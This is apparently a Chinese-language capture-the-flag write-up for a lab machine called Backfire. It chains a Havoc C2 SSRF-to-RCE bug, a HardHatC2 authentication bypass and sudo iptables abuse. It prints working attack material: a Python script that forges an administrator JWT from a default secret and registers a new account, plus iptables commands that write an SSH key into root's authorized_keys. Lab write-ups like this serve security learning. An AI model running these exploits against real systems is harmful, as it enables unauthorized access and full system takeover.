


## 00. 摘要

利用了两个与C2工具相关的漏洞，并且 `sudo -l` 发现 `iptables`。利用 `iptables` 提权到root。

## 01. 信息收集

端口扫描

```bash
$ rustscan -u 5000 -a 10.129.34.127
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/home/lambermaybe/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.129.34.127:22
Open 10.129.34.127:8000
Open 10.129.34.127:443
```

8000 端口有http服务，访问找到两个文件



```
disable_tls.patch
havoc.yaotl
```


## 02. ilya用户权限

google搜索发现是 `havoc` 的RCE，找到 CVE-2024-41570 拿到 `ilya` 的权限。

> [!note]
> 参考链接：
> 1. https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/
> 2. https://github.com/chebuya/Havoc-C2-SSRF-poc
> 3. https://github.com/HimmeL-Byte/CVE-2024-41570-SSRF-RCE

在用户目录下，看见一个 `hardhat.txt`

```bash
ilya@backfire:~$ cat hardhat.txt
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 
```


## 03. sergej用户权限

google搜索 `HardHatC2` 的漏洞，找到一个 [越权RCE漏洞](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)

将所需要用到的端口内网穿透出来

```shell
ssh -i id_rsa ilya@10.10.11.49 -L 7096:127.0.0.1:7096 -L 5000:127.0.0.1:5000 -g
```

使用以下脚本创建一个管理员账户

```python
# @author Siam Thanat Hack Co., Ltd. (STH)
import jwt
import datetime
import uuid
import requests
 
rhost = '127.0.0.1:5000'
 
# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()
 
expiration = now + datetime.timedelta(days=28)
payload = {
    "sub": "HardHat_Admin",  
    "jti": str(uuid.uuid4()),
    "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
    "iss": issuer,
    "aud": issuer,
    "iat": int(now.timestamp()),
    "exp": int(expiration.timestamp()),
    "http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}
 
token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)
 
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

然后进入后台，找到执行命令的终端，将自己的 `ssh-key` 写进 `sergej` 的 `authorized_keys` 中

ssh连上去，然后查看 `sudo -l` ，发现有如下权限

```bash
sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save
```

## 04. 提权

找到参考文章 [从sudo iptables到本地权限提升的旅程](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)

构造以下内容，将自己的ssh公钥写进root用户的 `authorized_keys` 中，然后ssh连接root用户

```shell
sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\n ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHjrHDPIy3BQDcGbfw9i8QbnIKMpWdLQb4WEDueDYfcb \n'
sudo /usr/sbin/iptables -S
sudo /usr/sbin/iptables-save -f /root/.ssh/authorized_keys
```